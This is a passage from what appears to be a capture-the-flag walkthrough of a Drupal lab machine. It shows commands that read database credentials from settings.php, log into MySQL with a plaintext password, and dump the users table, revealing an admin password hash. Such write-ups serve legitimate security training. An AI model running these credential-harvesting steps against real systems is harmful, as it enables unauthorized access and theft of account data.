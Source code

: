 ![/etc/passwd](Images/etc-passwd.png)

I went to `/sites/default/` and opened `settings.php` which had the MySQL credentials identified earlier in the Nmap scan results

I was able to pull available tables with the following command

```
mysql -e 'show tables;' -u drupaluser -p 'CQHEy@9M*m23gBVj' drupal
```

Among the tables, one that interested me was `users`. I queried all the users in there and the only one that was generated was `Brucetherealadmin`

```
bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
<* from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        languagepicture  init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
```

